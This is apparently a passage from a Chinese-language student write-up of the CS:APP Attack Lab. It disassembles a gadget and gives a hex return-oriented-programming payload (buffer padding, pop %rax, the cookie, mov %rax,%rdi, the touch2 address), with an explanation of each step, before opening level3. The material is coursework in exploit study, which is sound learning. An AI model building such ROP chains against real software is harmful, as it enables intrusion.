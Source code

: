 ```
00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq   
/*
起始于0x4019c5
48 89 c7 : mov $rax,$rdi
90 : nop
c3 : retq
*/
```



首先我们填满getbuf开满的空间

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00/*前0x28个空间*/
cc 19 40 00 00 00 00 00/*	pop %rax*/
fa 97 b9 59 00 00 00 00/*cookie*/
c5 19 40 00 00 00 00 00/*mov %rax,%rdi*/
ec 17 40 00 00 00 00 00/*touch2*/
```

首先我们走到pop %rax，将cookie赋值给了rax，然后接着紧跟着c3 执行了ret，然后我们又回到了栈中，mov %rax,%rdi，把我们的rax赋值给了rdi，然后ret到了地址中



![image-20211222215811034](https://gitee.com/dingpengs/image/raw/master/imgwin/image-20211222215811034.png)

#### level3

目标字符串毫无疑问还是存放在栈中的，但是我们如何在栈地址随机化的情况下去获取我们放在栈中的字符串的首地址呢？

这个是最难的一个

参考

https://www.viseator.com/2017/07/18/CS_APP_AttackLab/